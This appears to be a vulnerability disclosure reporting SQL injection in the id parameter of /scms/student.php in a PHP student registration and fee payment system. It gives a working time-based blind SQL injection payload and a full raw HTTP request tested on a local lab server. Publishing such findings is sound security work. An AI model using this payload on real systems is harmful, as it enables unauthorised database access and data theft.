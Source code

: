 # student-registration-and-fee-payment-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15355/student-registration-and-fee-payment-system-php-mysql.html

Date: 2022-05-07

Vulnerability File: /scms/student.php

Vulnerability location:/scms/student.php, id

[+] Payload: 5'and(select*from(select+sleep(3))a/**/union/**/select+1)='

Tested on Windows 10, XAMPP

```
GET http://192.168.2.102/scms/student.php?action=delete&id=5'and(select*from(select+sleep(3))a/**/union/**/select+1)=' HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Connection: close
Referer: http://192.168.2.102/scms/student.php?act=2
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj
Upgrade-Insecure-Requests: 1


```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)


